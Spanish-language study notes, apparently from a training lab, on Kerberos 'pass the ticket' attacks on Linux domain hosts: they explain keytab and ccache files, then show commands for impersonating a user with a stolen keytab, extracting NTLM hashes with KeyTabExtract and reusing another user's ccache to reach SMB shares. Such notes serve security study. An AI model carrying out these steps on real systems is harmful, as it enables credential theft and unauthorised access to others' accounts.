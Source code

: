 # Pass the ticket en LINUX

## Conceptos a tener en cuenta

### Keytab

- **Definición:** Un keytab es un archivo que almacena pares de claves (principal y clave) para servicios o usuarios. Estos pares son utilizados por Kerberos para autenticación sin necesidad de que un usuario introduzca manualmente su contraseña.

- Uso: Se usa principalmente en servidores para servicios que necesitan autenticarse en un dominio AD. El archivo keytab permite que estos servicios inicien sesión en Kerberos sin intervención humana.

### Ccache

- **Definición:** Ccache (credential cache) es un archivo utilizado por Kerberos para almacenar tickets de autenticación temporalmente. Cuando un usuario se autentica, Kerberos guarda su Ticket Granting Ticket (TGT) en este archivo.

- Uso: Se utiliza para almacenar tickets que permiten acceder a servicios dentro del dominio AD sin necesidad de volver a autenticarse cada vez.

## Kerberos en Linux

- Autenticación en Kerberos: Cuando un usuario o servicio quiere autenticarse con AD en un entorno Linux, se inicia una solicitud de autenticación Kerberos. Si el usuario ha iniciado sesión, su TGT se almacena en el archivo ccache. Para los servicios que necesitan autenticarse automáticamente, se usa el archivo keytab.

- Acceso a servicios: Una vez autenticado, Kerberos proporciona tickets de servicio almacenados en el ccache. Estos tickets son presentados a servicios dentro del dominio para obtener acceso.

- Configuración: Los archivos keytab se configuran utilizando herramientas como ktutil o mediante scripts proporcionados por administradores de AD. Los ccache se manejan automáticamente por kinit y otros comandos relacionados con Kerberos.

### Comandos utiles

- `realm list` Lista información del AD
- `klist` Lista información de kerberos

## Recomendado utilizar linikatz para extraer toda esta info

### Impersonando un usuario con keytab

```
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```

- Ahora, nos metemos a la carpeta compartida de este nuevo usuario **Carlos**

```
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls

  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022

                7706623 blocks of size 4096. 4452852 blocks available
```

## KeyTabExtract abusar

- Para extraer los secretos de un archivo keytab, utilizamos KeyTabExtract.

```python3 keytabexcract.py USER.keytab```

- Ya con el NTLM podemos hacer todos los ataque conocidos

## Importing the ccache File into our Current Session
```
cp /tmp/krb5cc_647401106_5Eidyq .
export KRB5CCNAME=/root/krb5cc_647401106_5Eidyq
klist
smbclient //DC01/julio -k
```